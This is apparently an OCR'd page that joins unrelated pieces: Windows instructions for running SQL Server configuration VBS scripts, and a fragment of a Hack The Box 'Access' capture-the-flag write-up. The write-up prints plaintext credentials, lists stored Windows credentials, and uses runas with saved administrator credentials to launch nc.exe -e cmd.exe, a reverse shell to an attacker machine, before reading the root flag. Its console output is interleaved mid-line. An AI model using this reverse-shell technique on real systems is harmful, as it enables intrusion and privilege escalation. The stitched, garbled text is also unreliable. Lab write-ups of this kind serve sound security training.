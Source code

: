 For the vbs scripts: 
- Go to windows Services and stop ALL SQL related services.
- Open command prompt with elevated privileges (Administrator).
- paste the following commands in command prompt for each script and click ENTER...
	1. cmd.exe /c WScript.exe "c:\temp\scripts\SQLOpenFirewallPorts.vbs" "C:\Windows\system32" "c:\temp\logs\"
	2. cmd.exe /c WScript.exe "c:\temp\scripts\SQLServerCfgPort.vbs" "C:\Windows\system32" "c:\temp\logs\" "NO_INSTANCES_FOUND"
	3. cmd.exe /c WScript.exe "c:\temp\scripts\SetAccessRuleOnDirectory.vbs" "C:\Windows\system32" "c:\temp\logs\" "NT AUTHORITY\SYSTEM" "C:\\Portal\database"
	4. Start up all SQL services again manually or run - cmd.exe /c WScript.exe "c:\temp\scripts\RestartServiceByDescriptionNameLike.vbs" "C:\Windows\system32" "c:\temp\logs\" "SQL Server (NO_INSTANCES_FOUND)" 

```python
!echo "sa / htrcy@HXeryNJCTRHcnb45CJRY" >> creds.txt
!cat creds.txt
```

    engineer / access4u@security
    security / 4Cc3ssC0ntr0ller
    sa / htrcy@HXeryNJCTRHcnb45CJRY

C:\temp>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administratorroot@kali:~/git/HackTheBox/access# nc -lvnp 80
C:\temp>runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c c:\temp\nc.exe 10.10.14.17 80 -e cmd.exe"listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.98] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd ../../Users/Administrator/Desktop
cd ../../Users/Administrator/Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
6e1586cc7ab230a8d297e8f933d904cf
